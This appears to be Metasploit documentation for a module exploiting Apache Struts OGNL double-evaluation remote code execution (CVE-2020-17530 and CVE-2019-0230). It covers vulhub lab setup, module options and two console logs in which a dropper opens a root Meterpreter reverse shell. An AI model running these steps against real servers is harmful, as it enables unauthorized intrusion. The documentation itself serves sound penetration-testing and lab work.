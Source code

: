 ## Vulnerable Application
The Apache Struts framework, when forced, performs double evaluation of attributes' values assigned to certain tags
attributes such as `id`. It is therefore possible to pass in a value to Struts that will be evaluated again
when a tag's attributes are rendered. With a carefully crafted request, this can lead to Remote Code Execution (RCE).

This vulnerability is application dependent. A server side template must make an affected use of request data to
render an HTML tag attribute.

Vulnerable versions of Apache Struts for both CVEs are provided by [vulhub][1] on GitHub. The setup instructions are identical
for both CVEs, just use the provided files in the correct directory.

1. Use `git` to clone `https://github.com/vulhub/vulhub.git`.
1. Change the current working directory to the one corresponding to the CVE that should be tested. For CVE-2019-0230, use
  `struts2/s2-059` and for CVE-2020-17530, use `struts2/s2-061`.
1. From within the directory, run `docker-compose up -d`
1. (OPTIONAL) Run `docker-compose exec struts2 bash` to obtain an interactive shell within the container. This is useful
  for debugging purposes.

* CVE-2019-0230 was patched in 2.5.20
* CVE-2020-17530 was patched in 2.5.26

### Example Setting Up CVE-2020-17530 / S2-061

```
[smcintyre@localhost ~]$ git clone https://github.com/vulhub/vulhub.git
Cloning into 'vulhub'...
remote: Enumerating objects: 234, done.
remote: Counting objects: 100% (234/234), done.
remote: Compressing objects: 100% (141/141), done.
remote: Total 10171 (delta 86), reused 191 (delta 69), pack-reused 9937
Receiving objects: 100% (10171/10171), 130.98 MiB | 8.36 MiB/s, done.
Resolving deltas: 100% (4014/4014), done.
[smcintyre@localhost ~]$ cd vulhub/struts2/s2-061
[smcintyre@localhost s2-061]$ docker-compose up -d
Creating network "s2-061_default" with the default driver
Pulling struts2 (vulhub/struts2:2.5.25)...
2.5.25: Pulling from vulhub/struts2
756975cb9c7e: Pull complete
d77915b4e630: Pull complete
5f37a0a41b6b: Pull complete
96b2c1e36db5: Pull complete
27a2d52b526e: Pull complete
93a36defce60: Pull complete
9e2014d79b30: Pull complete
ac71d4ce2ce4: Pull complete
a2f817e4badf: Pull complete
62ac51b7362f: Pull complete
e12f6705ebbe: Pull complete
4f4fb700ef54: Pull complete
97ba98138d72: Pull complete
Digest: sha256:eaf49b95f2c178cca77d3c8454f79a4fe4ed4dd9d342c9e9a911e842565217d2
Status: Downloaded newer image for vulhub/struts2:2.5.25
Creating s2-061_struts2_1 ... done
[smcintyre@localhost s2-061]$ docker-compose exec struts2 bash
root@d37b5ab61b87:/usr/src#
```

## Verification Steps

1. Install the vulnerable application, see the "Vulnerable Application" section.
1. Start `msfconsole`
1. Do: `use exploit/multi/http/struts2_multi_eval_ognl`
1. Set `RHOSTS` to the address of the target(s) to exploit.
1. Set `CVE` to the ID of the CVE you wish to run against the target: either `CVE-2020-17530` or `CVE-2019-0230`.
1. Do: `run`

## Options

### NAME
The HTTP query parameter or form data name. This option is closely related to the vulnerability and will likely be
application specific in real world environments. This must be the name of a parameter sent through either a GET or POST
request to the application that is reflected back as an HTML attribute. The module's `check` method will utilize this
value to determine if it can be used to evaluate OGNL expressions.

### CVE
The CVE to try exploit on `RHOSTS`, either `CVE-2020-17530` or `CVE-2019-0230`.

### TARGETURI
The base path to a valid Struts application on the target machine or machines.

### CMDSTAGER::DELAY
Delay between command executions. Set this value higher if the target tends to be slow to respond.

### HttpCookie
An optional cookie to include when making the HTTP request.

## Scenarios

### CVE-2020-17530 From Vulhub

```
msf > use exploit/multi/http/struts2_multi_eval_ognl
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper
TARGET => Linux Dropper
msf exploit(multi/http/struts2_multi_eval_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2020-17530
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.18.0.2
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.18.0.2:46770) at 2020-12-15 19:43:28 -0500
[*] Command Stager progress - 100.00% done (820/820 bytes)

meterpreter > getuid
Server username: root @ d37b5ab61b87 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 10.6 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### CVE-2019-0230 From Vulhub

```
msf > use exploit/multi/http/struts2_multi_eval_ognl
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf exploit(multi/http/struts2_multi_eval_ognl) > set CVE CVE-2019-0230
CVE => CVE-2019-0230
msf exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper
TARGET => Linux Dropper
msf exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2019-0230
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.19.0.2
[*] Command Stager progress - 100.00% done (820/820 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.19.0.2:47884) at 2020-12-15 19:47:10 -0500

meterpreter > getuid
Server username: root @ 91f7855f1eda (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.19.0.2
OS           : Debian 10.5 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://github.com/vulhub/vulhub
